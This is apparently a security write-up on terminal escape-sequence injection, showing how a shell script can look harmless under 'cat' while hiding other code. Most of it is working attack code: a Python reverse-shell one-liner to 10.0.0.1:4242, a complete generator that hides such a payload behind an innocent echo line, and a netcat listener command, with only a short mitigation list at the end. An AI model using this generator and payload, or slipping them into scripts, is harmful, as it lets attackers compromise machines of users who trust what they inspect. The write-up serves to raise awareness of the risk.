

**Users frequently execute scripts without examining their contents, thereby exposing themselves to potential unintended consequences or security risks.**

Downloading and executing scripts such as

```bash
$ sh -c '$(curl -fsSL https://raw.github.com/ohmyzsh/ohmyzsh/master/tools/install.sh)'
```

It is recommended to always check what is inside of the script.

How many times have you run the script, checking it superficially with a “cat” command beforehand? What if you’ve done that, and still managed to accidentally run malware on the machine?

## Terminal Injection

**“A terminal escape sequence is a special sequence of characters that is printed (like any other text). But, if the terminal understands the sequence, it won’t display the character-sequence, but will perform some action.”

### _Impostor:_

```bash
echo -n Hello there! This is todays date: $(date)
```

### _Payload:_

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

### _Generator:_

```python
#!/usr/bin/python 
import sys  

DELETE_CHAR = "\x7F" 
NEWLINE_CHAR = '\x0a'

def read_file(file):
  with open(file) as file_handle:
    return "".join(file_handle.readlines())  

def move_lines_up(line_count):
  return "\033[" + str(line_count) + "A"
   
def move_to_line_beginning():     
  return "\033[F"
  
def build_executable(impostor, shellcode):
  executable = shellcode
  executable += move_lines_up(shellcode.count(NEWLINE_CHAR) + 1)
  executable += move_to_line_beginning()
  executable += impostor + DELETE_CHAR * (len(shellcode) - len(impostor))     
  return executable
    
def main():    
  shellcode = read_file(sys.argv[1])    
  impostor = read_file(sys.argv[2])
  
  executable = build_executable(impostor, shellcode) 
      
  with open('./poc.sh', 'w') as file:       
    file.write(executable)  
  
if __name__ == "__main__":     
  main()
```

Now as we generate our script with hidden characters, let’s check what is inside using “cat” command.

```bash
$ cat ./poc.sh

echo -n Hello there! This is todays date: $(date)
```

Seems like nothing special. Let’s start the listener and run the script.

```bash
nc -lvnp 9999 & chmod 755 poc.sh && ./poc.sh
```



### _**We just executed arbitrary, hidden code, resulting in a compromise of the machine.**_

## Mitigation

To prevent this, use: 
```bash
- Command cat with -v parameter displays non-printing characters 
- Command more will reveal non printing characters in Windows environment 
- In Powershell use commandlet Write-Output
```

**Stay safe!**

K.